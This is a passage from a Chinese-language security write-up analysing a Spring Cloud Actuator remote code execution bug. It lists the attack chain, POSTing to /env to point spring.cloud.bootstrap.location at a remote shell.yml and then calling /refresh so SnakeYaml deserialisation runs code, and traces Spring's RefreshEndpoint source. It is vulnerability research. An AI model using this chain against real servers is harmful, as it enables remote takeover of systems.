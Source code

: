 ```http
```

攻击成功：

![image-20210819165011970](/media/image-20210819165011970.png)

### 漏洞原理

原理很简单：

1. 通过POST请求 `/env` 接口，请求添加配置： `spring.cloud.bootstrap.location=http://127.0.0.1/shell.yml` ;
2. 通过POST请求 `/refresh` 接口，请求刷新配置并重新加载配置；
3. Spring后台使用SnakeYaml加载yml文件，导致yml反序列化RCE；

前面已经分析过添加配置的具体流程了（ `EnvironmentManagerMvcEndpoint` ），那我请求 `/refresh` 是如何触发解析远程yml的呢？

根据前面的前置知识，我们可以知道， `/refresh` 接口的具体处理逻辑应该在 `RefreshEndpoint` 内：

```java
@ConfigurationProperties(prefix = "endpoints.refresh", ignoreUnknownFields = false)
@ManagedResource
public class RefreshEndpoint extends AbstractEndpoint<Collection<String>> {

   private ContextRefresher contextRefresher;

   public RefreshEndpoint(ContextRefresher contextRefresher) {
      super("refresh");
      this.contextRefresher = contextRefresher;
   }

   @ManagedOperation
   public String[] refresh() {
      Set<String> keys = contextRefresher.refresh();
      return keys.toArray(new String[keys.size()]);
   }

   @Override
   public Collection<String> invoke() {
      return Arrays.asList(refresh());
   }

}
```

入口在 `refresh()` 方法，一路跟进 `contextRefresher.refresh()` ，直到 `org.springframework.cloud.context.refresh.ContextRefresher#addConfigFilesToEnvironment()` ：

![image-20210819170601176](/media/image-20210819170601176.png)

所以接下来我们直接跟进 `BootstrapApplicationListener` 和  `ConfigFileApplicationListener` 即可。首先看到 `BootstrapApplicationListener` 的事件处理：

![image-20210819171547783](/media/image-20210819171547783.png)
